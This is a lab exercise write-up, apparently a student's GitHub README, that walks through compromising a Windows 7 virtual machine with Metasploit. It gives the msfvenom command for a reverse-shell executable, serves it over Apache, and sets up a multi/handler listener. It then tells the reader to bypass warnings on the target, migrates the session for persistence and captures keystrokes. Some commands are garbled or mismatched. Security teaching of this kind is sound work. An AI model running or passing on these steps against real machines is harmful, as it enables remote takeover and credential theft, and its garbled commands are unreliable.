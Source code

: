 # EX-6.Compromising-windows-using-Metasploit
## Date:
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0f0a4214-f2dc-4996-8926-eb56392bcc9c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7556fc57-da46-4e95-8513-3751c39f7877)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/ef0ae3f2-ed72-4581-a5e3-082fc0c1c662)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/06567d9d-bf5a-46f3-8915-09e660fd0ee6)



Check the status of apache2
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ce0d347-84b4-4782-9e05-3684db0a972a)



Invoke msfconsole:
## OUTPUT:

![320249831-bcbf9308-5c23-49c0-8ece-39f45528f5f8](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7ea33979-d8fd-44a3-af85-5eb17f520e28)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![320249999-1a4990af-3423-40c9-ac8d-e76ae65172ce](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7782e729-27b3-4b25-9182-9f1ed5a34d68)

Starting a command and control Server

use multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/039dce90-c240-40e3-a053-479988b6de5a)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![VirtualBox_Windows 7_07_04_2024_09_28_16](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6d0f5ccd-2d68-4896-807f-14936ab7dfc3)

Bypass any warning boxes, double-click the file, and allow it to run.

![VirtualBox_Windows 7_07_04_2024_09_56_55](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0a74ac36-8755-414c-9030-2c5d9daba5d8)

On kali give the command exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e52ec7e8-339e-4c61-97d4-6ded61fa3868)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/2e397df3-935e-4231-9552-628e829a336d)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/b8ba91f2-ec16-43fd-b843-7a5720d84935)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/8347aaba-4690-4922-8388-33f496f36796)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6e719e14-830f-4589-a9de-86ebbba28b65)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
